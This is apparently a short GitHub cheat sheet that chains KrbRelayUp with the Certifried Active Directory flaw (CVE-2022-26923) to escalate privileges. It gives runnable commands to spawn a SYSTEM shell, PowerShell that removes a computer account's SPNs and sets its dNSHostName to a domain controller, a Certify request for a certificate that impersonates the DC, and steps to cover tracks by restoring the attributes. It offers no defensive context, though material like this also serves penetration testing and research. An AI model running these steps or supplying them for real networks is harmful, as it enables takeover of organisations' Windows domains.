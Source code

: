 ### Certifried combined with KrbRelayUp

### Start SYSTEM cmd shell
```
KrbRelayUp.exe full -m shadowcred -f
```

### Remove SPNs and modify dNSHostName to a DC (save original values in variables $spn and $dns)
```
$searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]'')
$searcher.filter = '(&(objectClass=computer)(sAMAccountName={0}$))' -f $Env:ComputerName
$obj = [ADSI]$searcher.FindAll().Path
$spn = @()
$obj.servicePrincipalName | % { $spn += $_ }
$dns = $obj.dNSHostName.ToString()     
$spn | % { $obj.servicePrincipalName.Remove($_) }
$obj.dNSHostName = "<domainControllerFqdn"
$obj.SetInfo()
```

### Request certificate using abused computer
```
.\Certify.exe request /ca:<domainControllerFqdn>\<certificateAuthority> /machine
```

### Restore computer attributes
```
$obj.dNSHostName = $dns
$spn | % { $obj.servicePrincipalName.Add($_) }
$obj.SetInfo()
```

### References
* https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4
* https://gist.github.com/tothi/f89a37127f2233352d74eef6c748ca25


